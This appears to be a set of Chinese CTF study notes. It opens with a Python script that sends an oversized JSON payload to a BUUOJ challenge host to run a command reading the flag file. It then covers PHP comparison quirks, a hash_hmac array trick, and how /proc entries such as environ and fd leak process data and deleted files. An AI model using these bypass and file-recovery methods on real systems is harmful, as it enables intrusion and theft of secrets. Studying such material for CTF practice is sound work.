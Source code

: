利用大概像这样

```py
import requests
payload = '{"cmd":"/bin/cat /home/rceservice/flag","test":"' + "a"*(1000000) + '"}'
res = requests.post("http://f0b3a32e-1633-47fc-b006-ec46a6cfc17e.node3.buuoj.cn/", data={"cmd":payload})
print(res.text)
```

## 同或

同或 !=! 的逻辑：
1 !=! 1 == true
1 !=! 0 == false
0 !=! 1 == false
0 !=! 0 == true

是这意思吗

## hash_hmac()

如果第二个参数是数组,那么返回NULL
那么如果再次调用第一次调用后的 结果就可控了

## proc下cmdline cwd exe environ fd self

### cmdline

存储着启动当前进程的完整命令，但僵尸进程目录中的此文件不包含任何信息。可以通过查看cmdline目录获取启动指定进程的完整命令

`cat /proc/*/cmdline`-->`/usr/bin/docker-proxy`

### cwd

cwd文件是一个指向当前进程运行目录的符号链接。可以通过查看cwd文件获取目标指定进程环境的运行目录

`ls -al /proc/*/cwd`-->`/var/lib/postgresql/9.5/main`
`ls /var/lib/postgresql/9.5/main`<-->`ls /proc/*/cwd`

### exe

exe 是一个指向启动当前进程的可执行文件（完整路径）的符号链接。通过exe文件我们可以获得指定进程的可执行文件的完整路径

`ls -al /proc/*/exe`-->`/usr/lib/postgresql/9.5/bin/postgres`

### environ

environ 文件存储着当前进程的环境变量列表，彼此间用空字符（NULL）隔开。变量用大写字母表示，其值用小写字母表示。可以通过查看environ目录来获取指定进程的环境变量信息

### fd

fd 是一个目录，里面包含这当前进程打开的每一个文件的文件描述符（file descriptor），这些文件描述符是指向实际文件的一个符号链接，即每个通过这个进程打开的文件都会显示在这里。所以我们可以通过fd目录里的文件获得指定进程打开的每个文件的路径以及文件内容

查看指定进程打开的某个文件的内容：

`ls -al /proc/*/fd/4`

如果一个程序用`open()`打开了一个文件但最终没有关闭他，即便从外部（如`os.remove(SECRET_FILE)`）删除这个文件之后，在 `/proc` 这个进程的 `pid` 目录下的 `fd` 文件描述符目录下还是会有这个文件的文件描述符，通过这个文件描述符我们即可得到被删除文件的内容

### self

`/proc/self` 表示当前进程目录

### 注意
